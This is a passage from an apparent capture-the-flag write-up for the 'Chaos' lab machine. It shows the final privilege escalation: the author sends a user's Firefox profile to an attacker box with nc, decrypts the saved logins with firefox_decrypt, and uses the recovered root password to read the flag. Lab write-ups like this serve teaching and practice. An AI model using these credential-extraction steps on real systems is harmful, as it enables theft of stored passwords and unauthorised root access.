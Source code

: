 The `formSubmitURL` value is `https://chaos.htb:10000` so this means the user logged on to the Webmin application and saved the credentials.

To decrypt those, we'll first tar the whole .mozilla directory and `nc` it to our Kali box, then use [firefox_decrypt](https://github.com/unode/firefox_decrypt). The password is the same as the ayush password: `jiujitsu`

```
# ./firefox_decrypt.py /root/chaos/mozilla/.mozilla/firefox/bzo7sjt1.default/
2018-12-15 21:02:22,369 - WARNING - profile.ini not found in /root/chaos/mozilla/.mozilla/firefox/bzo7sjt1.default/
2018-12-15 21:02:22,370 - WARNING - Continuing and assuming '/root/chaos/mozilla/.mozilla/firefox/bzo7sjt1.default/' is a profile location

Master Password for profile /root/chaos/mozilla/.mozilla/firefox/bzo7sjt1.default/: 

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```

Nice, we can just `su` to root and get the last flag:

```
ayush@chaos:~$ su -l root
su -l root
Password: Thiv8wrej~

root@chaos:~# cat /root/root.txt
cat /root/root.txt
4eca7e...
```
